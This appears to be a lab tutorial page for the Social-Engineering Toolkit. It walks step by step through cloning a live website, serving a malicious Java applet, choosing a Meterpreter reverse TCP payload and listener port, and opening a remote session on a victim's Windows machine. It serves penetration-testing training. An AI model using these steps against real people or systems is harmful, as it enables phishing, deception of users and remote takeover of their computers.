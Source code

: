 
The Social-Engineering Toolkit
===========================

Website
-------

<https://www.trustedsec.com/downloads/social-engineer-toolkit/>

<https://github.com/trustedsec/social-engineer-toolkit>

Description
-----------

SET is an open source tool implemented in python which focuses on penetration testing through 
social engineering. SET uses advanced attack techniques and has been featured in many books.

Install Location
----------------

`/opt/set/`

Usage
-----

SET comes with a built in menu driven UI.  All you need to do is launch it; and follow the prompts.

`~#` **`cd /opt/set`**

`/opt/set#` **`./setoolkit`**

Example 1: Look over SET's features
-----------------------------------

After launching you will be greeted by the SET prompt.  It should look
similar to below.

    Select from the menu:
    
       1) Social-Engineering Attacks
       2) Fast-Track Penetration Testing
       3) Third Party Modules
       4) Update the Metasploit Framework
       5) Update the Social-Engineer Toolkit
       6) Update SET configuration
       7) Help, Credits and About
       
       99) Exit the Social-Engineer Toolkit
       
    set>

For its incredible power SET is extremely simple to use. No need to 
memorize commands, since SET presents the user with a series of 
itemized menus. Let's have a look at some of these features.

First off, notice that options 4-6 run updates for metasploit, SET, and
its options, respectively.

Next, let's look at `Social Engineering Attacks`. Just hit `1` at the prompt
and press enter. You'll be presented with your next layer of menus.

![](SET_files/SET02.png)

Select `Website Attack Vectors` in the current menu (item #2).

![](SET_files/SET03.png)

Note that the list of choices is now proceeded by a descritpion of each.
One of SET's more effective attack vectors is the `Java Applet Attack Method`. 
This method requires that we build a fake website and load a
malicious java applet into it, then convince your target to run the
applet. Let's select the `Java Applet Attack Method`.

![](SET_files/SET04.png)

Now we can take a look at how we want to build this website.  Our options
are to choose bewteen using existing web templates or to clone a live site.

`set:webattack>` **`2`**

Selecting the live site you are now asked if you are using nat port
forwarding.  Answer `no`.

`set> Are you using NAT/Port Forwarding [yes|no]:` **`no`**

Next, we'll be asked for the IP address we will be listening on. Find
it by typing `ifconfig` in another terminal window and type it in
when SET prompts you.

`192.168.1.113`

Now, set is going to prompt us to decide if we want to use the built in applet, or create our own.  Applet signing can be a bit tricky, and in recent years web browsers have become increasingly picky about what types of applets they run (if they run applets at all).

		1. Make my own self-signed certificate applet.
		2. Use the applet built into SET.
		3. I have my own code signing certificate or applet.

		Enter the number you want to use [1-3]: 

We recommend you select option #2.  

Next, we're prompted for a site to clone.  Let's use `http://isitchristmas.com`

SET now retrieves the site and presents us with a (long) list of
payloads.  We'll choose #1 for now, which is the `Meterpreter Memory Injection`.

       1) Meterpreter Memory Injection (DEFAULT)	This will drop a meterpreter payload through PyInjector

`set:payloads>` **`1`**

Change the port for the listener if you want, or just leave it as the default 443.  If you have something already listening on 443 you'll obviously need to change the port here to something else, ex 8839.

`set:payloads> PORT of the listener [443]:` **`8839`**

Next we will select the type of payload we wish to deliver through memory injection.  I recommend option #1 which is `Windows Meterpreter Reverse TCP`.

		1) Windows Meterpreter Reverse TCP
		2) Windows Meterpreter (Reflective Injection), Reverse HTTPS Stager
		3) Windows Meterpreter (Reflective Injection), Reverse HTTP Stager
		4) Windows Meterpreter (ALL PORTS) Reverse TCP

`set:payload> Enter the number for the payload [meterpreter_reverse_https:` **`1`**

That's it, the listener should now launch.

Once the listener is running we're just waiting for the victim to surf
to our page. When they do they'll be presented with the ever-familiar
"Do you want to run this application" dialog box, where they always
seem to click yes.

If ADHD is configured as expected you should be able to find the payload at this address from the ADHD machine (open a web browser) `http://localhost/html/index.html`.  If you wish to trigger the payload you will want to connect to that page from a windows machine using a browser that will execute the applet (like Firefox or IE).  For this you will likely need the IP address to your ADHD instance which you can retrieve using the command `ifconfig`.

NOTE: Getting the applet to fire on another machine can be quite a pain.  You will likely run into compatibility issues with Java version, browser and browser version, firewall rules, etc.  Obviously, we just can't control every variable for this tutorial.  

If we look on the listening machine we see that SET now shows the
Metasploit prompt and is creating sessions in the background.

    msf exploit(handler)> sessions -l
     
    Active sessions
    ===============
     
      Id Type                       Information
      -- ----                       -----------
      1  meterpreter x86/win32      Test\tester @ LAB  (192.168.1.141)

We can now interact with the session.

`msf exploit(handler) >` **`sessions -i 1`**

From here, you have the entire Metasploit Framework at your disposal, including plugins, post 
modules, and exploits.



